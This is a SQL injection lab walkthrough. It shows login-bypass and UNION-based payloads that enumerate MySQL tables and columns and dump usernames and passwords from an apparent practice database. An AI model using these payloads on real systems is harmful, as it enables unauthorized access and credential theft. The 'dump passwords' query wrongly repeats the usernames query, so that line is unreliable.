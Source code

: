 We can check if **SQLI** is possible by using this query -  `admin' OR 1=1#` or `admin' OR 1=1-- -` and here is the output

![](https://i.imgur.com/MDvwaaB.png)

Since we don't know how many **columns** exists on this table we could use the `UNION` query to query for information we need

```
admin' union select null,null,null#
```

**_Where :_**

>`admin` is likely an attempt to target a user or role named "admin" in the database.
  `union` is used to combine the result of the injected query with the original query.
  `select null, null, null` is an attempt to retrieve three columns of data. The null values here may be placeholders, and an attacker would typically replace them with actual data or malicious code.
 `#` is used to comment out the rest of the query, effectively ignoring any text that follows it.


#### **Example**

![](https://i.imgur.com/NpwfYPk.png)

If we get a **No users found** related message then you should keep adding the `null,` statement, till we have something positive as shown above

### **Dumping MYSQL Version**

```
admin' union select null,null,version()#
```

we can just replace the third null with `version()` and should give us the version of MYSQL

![](https://i.imgur.com/vvi9x1D.png)



### **Dumping Table Names**

```
admin' union select null,null,table_name from information_schema.tables#
```



![](https://i.imgur.com/WPBQJ6b.png)



### **Dumping Columns Names**

```
admin' union select null,null,column_name from information_schema.columns#
```



![](https://i.imgur.com/vagSHjo.png)



### **Data Exfiltration**

```
# dump usernames
admin' union select null,null,username from injection0x01#

# dump passwords
admin' union select null,null,username from injection0x01#
```

Since we know the column and tables, we can now dump out a particular column from a table with the above query



**_Dump Usernames :_**



![](https://i.imgur.com/zdI5klI.png)




**_Dump Passwords :_**



![](https://i.imgur.com/gUrnIol.png)


**SQLI CHEATSHEET** --> [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
